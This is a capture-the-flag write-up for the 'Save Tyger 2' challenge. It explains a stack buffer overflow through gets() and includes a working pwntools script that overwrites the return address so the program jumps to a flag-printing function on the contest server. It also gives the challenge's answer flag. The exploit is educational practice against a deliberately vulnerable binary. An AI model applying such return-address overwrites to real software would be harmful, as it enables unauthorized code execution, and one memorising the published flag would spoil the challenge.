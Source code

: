 # Save Tyger 2

## Problem Statement
Tyger needs your help again.
Connect with nc litctf.live 31788

https://drive.google.com/uc?export=download&id=1qCSTo01YjzrncT0SZGOTouC4egY_q-PX

## Solution
We used `webshell.picoctf.org` for most of the debugging, and then switched to a local terminal for the final result.

First, we downloaded the zip file in the drive link, and opened it. Viewing the `save_tyger2.c` file, we see a couple of important details:

The `cell` function opens the flag and prints it out; we clearly want to call it. 
Moreover, in `main` we see a `gets`, which tells us that we want to invoke a buffer overflow.

Specifically, we want to overflow the `buf` array, and inject the address of `cell` after that. To get the location of `cell`, we chose to decompile the 
executable in assembly, using `objdump -M intel -d save_tyger2 > dis.asm`. Scrolling to `cell`, we see that the address is `0x0000000000401162`.

All that's left to do is inject this address in a buffer overflow:

```py
from pwn import *
r = remote("litctf.live", 31788)
s = 'a'*32 + 'b'*8 + '\x62\x11\x40\x00\x00\x00\x00\x00'  # Backwards since stack is read in reverse
r.sendline(s)
r.recvline()
r.recvline()
r.recvline()
print(r.recvline())
# >>> LITCTF{w3_w0nt_l3t_th3m_t4k3_tyg3r_3v3r_4gain}
```

## Answer
`LITCTF{w3_w0nt_l3t_th3m_t4k3_tyg3r_3v3r_4gain}`
